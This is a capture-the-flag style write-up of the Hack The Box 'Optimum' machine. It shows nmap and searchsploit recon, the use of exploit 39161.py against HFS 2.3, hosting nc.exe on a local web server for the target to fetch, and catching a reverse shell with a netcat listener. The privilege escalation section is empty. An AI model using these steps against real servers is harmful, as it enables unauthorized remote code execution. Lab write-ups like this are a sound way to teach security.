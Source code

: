 # Optimum 

![Optimum](profile.png) 


## Summary

* Windows Server 2012 R2 with a file server running on port 80
* RCE exists for the file server, HFS 2.3
* Simple web server to host nc.exe and a python script is enough to get a reverse shell

## Tools needed

* Python with http.server module
* searchsploit
* nc


## Detection 

Start with nmap

```
#nmap -sV -O --script *vuln* -oA nmap 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-10 21:46 CDT
Nmap scan report for 10.10.10.8
Host is up (0.044s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
| http-vuln-cve2011-3192: 
|   VULNERABLE:
|   Apache byterange filter DoS
|     State: VULNERABLE
|     IDs:  CVE:CVE-2011-3192  BID:49303
|       The Apache web server is vulnerable to a denial of service attack when numerous
|       overlapping byte ranges are requested.
|     Disclosure date: 2011-08-19
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192
|       https://www.tenable.com/plugins/nessus/55976
|       https://www.securityfocus.com/bid/49303
|_      https://seclists.org/fulldisclosure/2011/Aug/175
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|Vista|2008|7 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2012 (88%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.34 seconds
```

OS best guess is `Microsoft Windows 2012|Vista|2008|7 (90%)`.  Open port is 80 and it's an HTTP File Server, or specifically `HFS 2.3`.  Let's start at the port.

```
curl -I 10.10.10.8:80
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 3835
Accept-Ranges: bytes
Server: HFS 2.3
Set-Cookie: HFS_SID=0.492714939173311; path=/; 
Cache-Control: no-cache, no-store, must-revalidate, max-age=-1
```

curl confirms the server version as `HFS 2.3`.  Let's check the web interface.

![hfs](hfs.png) 

Clicking around there are quite a few areas we could try to gain a foothold.  However, given this is old software, let's check searchsploit first.

```
searchsploit hfs 2.3
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
HFS Http File Server 2.3m Build 300 - Buffer Overflow (PoC)                                                                                                 | multiple/remote/48569.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                                                              | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                                                         | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                                                         | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                                                                    | windows/webapps/34852.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Hard to pass up trying an RCE with Python, so let's try 39161.py.

## Exploit

```
searchsploit -m 39161
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /root/htb/optimum/39161.py
```
Checking the code, we need to get nc.exe ready for upload to the target server and the author expects it to be locally hosted, specifically http://&lt;local IP&rt;:80/nc.exe.

```
#find / | grep -i nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-resources/binaries/nc.exe

#mkdir web
#cp /usr/share/windows-resources/binaries/nc.exe web/.
#cd web
#python3.8 -m http.server --bind 10.10.14.5 80
Serving HTTP on 10.10.14.5 port 80 (http://10.10.14.5:80/) ...
```

Let's test the makeshift web server first ...

```
#curl 10.10.14.5:80/nc.exe --output nc.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 59392  100 59392    0     0  11.3M      0 --:--:-- --:--:-- --:--:-- 11.3M 

-------------------------------------------------------------------------------

#python3.8 -m http.server --bind 10.10.14.5 80
Serving HTTP on 10.10.14.5 port 80 (http://10.10.14.5:80/) ...
10.10.14.5 - - [10/Oct/2020 23:08:40] "GET /nc.exe HTTP/1.1" 200 -
```

File was downloaded, so it's working.  After fixing the hard-coded local IP and listener port in 39161.py, we're ready to execute.

```
#python 39161.py 10.10.10.8 80

-------------------------------------------------------------------------------

nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.8] 49170
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop> systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
```

For some reason the first execution of 39161.py didn't take.  On the second attempt is when I got the shell.


## Privilege Escalation






